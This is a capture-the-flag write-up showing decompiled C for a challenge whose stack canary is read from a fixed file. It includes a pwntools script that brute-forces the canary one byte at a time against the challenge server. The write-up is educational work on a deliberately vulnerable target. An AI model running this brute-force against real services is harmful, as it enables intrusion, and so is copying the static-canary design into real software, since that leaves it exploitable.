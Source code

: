 Opening this in Ghidra, we see that there's a custom stack canary implementation.

```c
void carry_bird_into_mine(void)
{
  FILE *canary_file;

  canary_file = fopen("birdy.txt","r");
  if (canary_file == (FILE *) 0x0) {
    puts("Looks like the bird has left the server. -- Please let an admin know on Discord!");
    printf("If you\'re running this locally, you\'ll need a birdy of your own!");
    exit(0);
  }
  fread(&global_birdy, 0x1, 0x8, canary_file);
  fclose(canary_file);
  return;
}

void name_it(void)
{
  size_t length;
  char buf [0x20];
  undefined name [0x20];
  long canary;

  canary = global_birdy;
  printf("How many letters should its name have?\n> ");
  fgets(buf, 0x20, stdin);
  length = atoi(buf);
  printf("And what\'s the name? \n> ");
  read(0,name,length);
  if (memcmp(&canary, &global_birdy, 0x8) != 0) {
    puts("*** Stack Smashing Detected *** : Are you messing with my canary?!");
    exit(0);
  }
  printf("Ok... its name is %s\n",name);
  fflush(stdout);
  return;
}
```

The vulnerability here is that the canary is not randomized on each run - its value is stored in a file. Since we have great control of how many bytes we overwrite, we can simply overwrite the bottom byte of the canary only. By trying all 256 possible values for this byte until we find the one that does not exit, we will have recovered one byte of the canary. Continuing this process for eight bytes gives us the canary.

```python
def attempt(offset, canary):
    with context.local(log_level="error"):
        r = remote("pwn.red.csaw.io", 5005)
        r.sendlineafter("> ", str(offset+32))
        r.sendafter("> ", b"A"*32 + canary)
        good = b"***" not in r.recv()
        r.close()
        return good

canary = b""
for offset in range(1, 9):
    for k in range(256):
        if attempt(offset, canary + bytes([k])):
            canary += bytes([k])
            break
```
